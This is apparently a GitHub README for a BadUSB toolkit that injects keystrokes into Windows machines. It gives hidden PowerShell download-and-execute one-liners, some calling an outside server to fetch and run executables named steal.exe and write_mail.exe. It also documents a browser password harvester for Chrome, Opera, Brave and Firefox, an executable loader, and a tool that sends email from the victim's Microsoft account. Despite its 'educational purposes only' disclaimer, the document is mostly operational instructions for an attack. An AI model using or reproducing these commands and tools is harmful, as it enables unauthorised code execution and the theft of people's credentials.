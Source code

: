 > **Disclaimer** \
> This project shall be used for **educational purposes only** \
> I (the author) take no responsibility or liability related to its usage.
> Any illegal activities are strictly forbidden.

> **Note** \
> All code has been tested on and targets Windows and Python==3.10.11


### downloading this repo
This repo requires having [git-cli](https://git-scm.com/downloads) and [Python~=3.10](https://www.python.org/downloads/release/python-31011/) already installed
```
git clone https://github.com/kaliiiiiiiiii/PublicDuckyChallenger
cd PublicDuckyChallenger
```

# Attack flow

<picture>
  <source
    srcset="assets/SimpleAttackFlowDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/SimpleAttackFlow.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/SimpleAttackFlow.png" width=50% />
</picture>


## Keys pressed by the BadUSB

1. `WIN` + `r` which opens a command prompt \
    <img src="assets/Windows10RunCommand.png" width=40%>
3. type `powershell -w h "IEX(iwr('URL'))"` where `URL` is  the url to a powershell script to execute
4. `ENTER` to run the command

## Programming & Hardware
See instructions for  [EvilCrowCable-Pro](https://github.com/joelsernamoreno/EvilCrowCable-Pro) at [/evil_crow_cable](/evil_crow_cable) \
and for [WHID injector](https://github.com/whid-injector/WHID) (recommended) at [/whid_injector](/whid_injector)


## Keyboard layout
The keyboard layout used for the BadUSB has to match the one chosen at the OS. \
If this is not the case,
some keys which are placed at different locations in the different layouts will output the wrong character.

# Payloads

<picture>
  <source
    srcset="assets/PayloadsDark.png"
    media="(prefers-color-scheme: dark)"
  />
  <source
    srcset="assets/Payloads.png"
    media="(prefers-color-scheme: light), (prefers-color-scheme: no-preference)"
  />
  <img src="assets/Payloads.png" width=70% />
</picture>

## URL shortener
Shortens an url with only "safe" characters for the domain [is.gd](https://is.gd)

<details>
<summary>Details</summary>

file: [urlshortener.py](urlshortener.py) \
Characters considered "safe" for keyboards are:
```
    t uiop
asdfghjkl
 xcvbnm
```
as the those characters are in the same place for different (common) keyboard layouts.
[![img.png](assets/keyboard_layouts.png)](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such)
(from [quora](https://www.quora.com/What-are-the-most-common-keyboard-layouts-And-why-is-each-layout-designed-as-such))

### requirements
```shell
pip install --upgrade aiohttp
```

### usage
```shell
python urlshortener.py https://kaliiiiiiiiii.github.io/rickroll/
# https://is.gd/tuion
```
or
```python
import asyncio
from urlshortener import create_short

async def main():
    url = "https://kaliiiiiiiiii.github.io/rickroll"
    _range = range(5, 10) # range to find urls for
    shorturl = await create_short(url, _range)
    print(shorturl)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

## Payload 1
Hides visible console window (if available) and downloads and executes `Payload 2`

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/pshid/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/pshid/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#pshid](https://github.com/kaliiiiiiiiii/vercel_utils_server?tab=readme-ov-file#pshid)

</details>

## Payload 2

### Rickroll (powershell)
- opens MS Edge on url
- sets audio volume to max
- user can't close it
- exits after `n` seconds

<details>
<summary>Details</summary>

file: [rickroll.ps1](rickroll.ps1)

#### usage
```shell
powershell -w h "IEX(iwr('is.gd/tuipo'))"
```
(download from this repo) \
or
```shell
powershell ./rickroll.ps1
```

#### configuration
You can change the `url` and `timeout` at [L96-L98](rickroll.ps1#L96-L98)

To create a short direct url to the file, run (replace `YourUserName` accordingly)
```shell
python urlshortener.py "https://raw.githubusercontent.com/YourUserName/PublicDuckyChallenger/master/rickroll.ps1"
```

#### Troubleshooting
If for some reason, you can't see your desktop anymore, perform the following steps:
1. press `CTRL` + `SHIFT` + `ESC`
2. click on `File`-> `Run New Task` in the Task-Manager
3. type `explorer` and press `ENTER`
4. 
</details>

### executable loader

downloads and executes a `.exe` file from `Endpoint 3` 

<details>
<summary>Details</summary>

The code can be found at [github.com/kaliiiiiiiiii/vercel_utils_server/@main/app/exe2ps1/route.ts](https://github.com/kaliiiiiiiiii/vercel_utils_server/blob/main/app/exe2ps1/route.ts), and usage at [github.com/kaliiiiiiiiii/vercel_utils_server#exe2ps1](https://github.com/kaliiiiiiiiii/vercel_utils_server/tree/main?tab=readme-ov-file#exe2ps1)

</details>


## Payload 3

### Password harvester
Steals all available passwords from Opera, Brave, Chrome and Firefox

<details>
<summary>Details</summary>

file: [pass_harvester/password_harvester.py](pass_harvester/password_harvester.py) (requires [firefox_harvester.py](pass_harvester/firefox_harvester.py))

### requirements
```shell
pip install --upgrade aiosqlite pywin32 pycryptodome aiofiles
```

### Usage
```shell
python  ./pass_harvester/password_harvester.py
```
or
```python
import asyncio
from pass_harvester.password_harvester import get_all_creds

async def main():
    all_creds = await get_all_creds()
    # note: creds can contain binary
    print(all_creds)

if __name__ == "__main__":
    asyncio.run(main())
```

</details>

### Edge email
Sends an E-Mail over the microsoft account on the device

<details>
<summary>Details</summary>

file: [edge_email.py](edge_email.py)
> **Note** \
> This currently only supports english and german devices.
> Feel free to add languages at [L48-L78](edge_email.py#L48-L78)

This works
because Microsoft apparently decided
to automatically log in with the microsoft account when creating a new MS-Edge profile

#### requirements
```shell
pip install --upgrade selenium-driverless
```

#### Usage
```shell
 python edge_email.py "test@test.com" "Test", "Hello there!"
```

```shell
> python edge_email.py -h
# usage: edge_email.py [-h] [--headfull] [--cc CC] to subject content
# 
# positional arguments:
#   to          The destination to send the E-Mail to
#   subject     Subject to send the E-Mail with
#   content     The content to send
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```
or
```python
import asyncio
from edge_email import write_email

async def main():
    await write_email("test@test.com", "Test", "Hello there!")
    print("E-Mail written")

if __name__ == "__main__":
    asyncio.run(main())
```

</details>



# Build executables

<details>
<summary>Instructions</summary>

> **Note** \
> In order to minimize the executables size,
> you might consider using a python
> [`venv`](https://docs.python.org/3/library/venv.html) and only installing the required packages

### Requirements
```shell
pip install --upgrade pyinstaller
```
\+ all requirements for the python script to build

```shell
python build.py "steal.py"
```

### run
download from this repo
(executes script at [`https://vercelutilsserver.gymthun.com/exe2ps1?url=https://raw.githubusercontent.com/kaliiiiiiiiii/PublicDuckyChallenger/master/dist/steal.exe&arg=example@example.com`](https://vercelutilsserver.gymthun.com/exe2ps1?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com))
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fsteal.exe&arg=example%40example.com'))"
```
or execute the exe
```shell
.\dist\steal.exe test@test.com
```
or from python
```shell
python steal.py test@test.com
```
```shell
python steal.py -h
# usage: steal.py [-h] [--headfull] [--cc CC] to
# 
# positional arguments:
#   to          The destination to send the E-Mail to
# 
# options:
#   -h, --help  show this help message and exit
#   --headfull  open a window for edge
#   --cc CC
```

### Build write Mail
set up is similar to the other build
```shell
powershell -w h "IEX(iwr('https://vercelutilsserver.gymthun.com/exehid?url=https%3A%2F%2Fraw.githubusercontent.com%2Fkaliiiiiiiiii%2FPublicDuckyChallenger%2Fmaster%2Fdist%2Fwrite_mail.exe&arg=example%40example.com'))"
```

</details>

## Acknowledgments
Inspiration, code snippets, etc.

- [github | neonfury/extract.py (gist)](https://gist.github.com/neonfury/a34a2aadc7c084f08cb046728cd25b54#file-extract-py) | password extractor for Chromium based browsers
- [github | foxtonforensics.com/blog/post/analysing-chrome-login-data](https://www.foxtonforensics.com/blog/post/analysing-chrome-login-data)
- [github | unode/firefox_decrypt/firefox_decrypt.py](https://github.com/unode/firefox_decrypt/blob/2a163faf6c22f62eb0b061fa3c0b317ae2e4a343/firefox_decrypt.py) | password extractor for firefox
- [stackoverflow | change-audio-level-from-powershell](https://stackoverflow.com/a/31751275/20443541)
- [community.spiceworks.com | sending-an-email-from-outlook-via-powershell](https://community.spiceworks.com/t/sending-an-email-from-outlook-via-powershell/938248)
- [learn.microsoft | outlook.mailitem](https://learn.microsoft.com/en-us/office/vba/api/outlook.mailitem)

